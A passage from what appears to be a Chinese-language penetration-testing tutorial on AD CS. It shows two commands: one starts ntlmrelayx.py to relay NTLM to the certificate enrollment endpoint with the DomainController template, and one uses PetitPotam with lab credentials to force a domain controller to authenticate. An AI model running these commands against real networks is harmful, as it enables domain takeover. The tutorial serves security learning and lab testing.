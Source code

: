 在 Kali Linux 上执行以下命令，启动 ntlmrelayx.py 监听，如下图所示。

```bash
python3 ntlmrelayx.py -t http://172.26.10.12/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# --adcs 启用 AD CS Relay 攻击
# --template指定 AD CS 证书模板
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/YQwzSNTyt7HqiRg.png)

然后执行以下命令，通过 PetitPotam 迫使域控制器向 Kali Linux 发起 NTLM 身份验证，如下图所示。

```bash
python3 PetitPotam.py -d pentest.com -u Marcus -p Marcus\@123 172.26.10.134 172.26.10.11
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/sHQFnZTR5yLwoYS.png)
